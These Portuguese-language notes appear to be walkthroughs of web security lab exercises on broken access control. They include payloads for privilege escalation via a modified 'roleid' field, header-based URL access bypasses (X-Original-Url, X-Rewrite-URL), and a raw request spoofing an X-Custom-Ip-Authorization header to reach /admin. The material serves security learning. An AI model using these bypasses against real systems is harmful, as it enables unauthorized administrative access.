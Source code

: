 # Vulnerabilidades de Controle de Acesso

Probabilidade: $${\color{yellow}média}$$.

<br>

## Laboratórios

**User Role can be Modified in User Profile**

Observe o parâmetro `"roleid":"1"` na resposta da requisição de trocar e-mail.

Adicione esse parâmetro na request com o valor 2: `"roleid":"2"` e tenha seus privilégios escalados.

Se o valor dois não funcionar, use o Intruder de 0 a 100 para descobrir o valor da role de administrator.

<br>
<br>

**URL-based Access Control Can Be Circumvented**
```
X-Original-Url: /admin
X-Rewrite-URL: /admin
```

<br>
<br>

**Authentication Bypass via Flawed State Machine**

Drope a request que está configurando a role.

<br>
<br>

**Authentication Bypass via Information Disclosure**

Use o método `TRACE` para encontrar o header escondido.

```
GET /admin HTTP/2
Host: TARGET.net
X-Custom-Ip-Authorization: 127.0.0.1
Cookie: session=2ybmTxFLPlisA6GZvcw22Mvc29jYVuJm
```
